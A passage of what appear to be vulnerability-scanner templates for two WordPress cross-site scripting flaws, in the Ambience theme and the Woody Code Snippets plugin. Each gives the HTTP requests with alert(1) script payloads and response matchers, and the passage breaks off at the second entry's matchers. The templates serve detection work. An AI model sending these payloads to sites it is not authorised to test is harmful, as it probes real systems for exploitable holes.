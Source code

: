 # WordPress Ambience Theme \<=1.0 - Cross-Site Scripting
## Description
- WordPress Ambience Theme 1.0 and earlier was affected by a cross-site scripting vulnerability.

- severity - medium
- tags - wp-plugin,wp,edb,wpscan,wordpress,xss
## Requests
- Method - GET
### URL
- {{BaseURL}}/wp-content/themes/ambience/thumb.php?src=%3Cbody%20onload%3Dalert(1)%3E.jpg
### Matchers

**Type - word**
- part - body
- words
    1. \<body onload=alert(1)>

**Type - word**
- part - header
- words
    1. text/html

**Type - status**
- status
    1. 200

---
# WordPress Woody Code Snippets \<2.4.6 - Cross-Site Scripting
## Description
- WordPress Woody Code Snippets plugin before 2.4.6 contains a cross-site scripting vulnerability. It does not escape generated URLs before outputting them back in an attribute.
- severity - high
- tags - xss,wp,wordpress,authenticated,woody,wpscan,wp-plugin
## Requests
### Step - 1
```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```
### Step - 2
```
GET /wp-admin/edit.php?post_type=wbcr-snippets&page=import-wbcr_insert_php&a">\<script>alert(1)\</script> HTTP/1.1
Host: {{Hostname}}

```
### Matchers
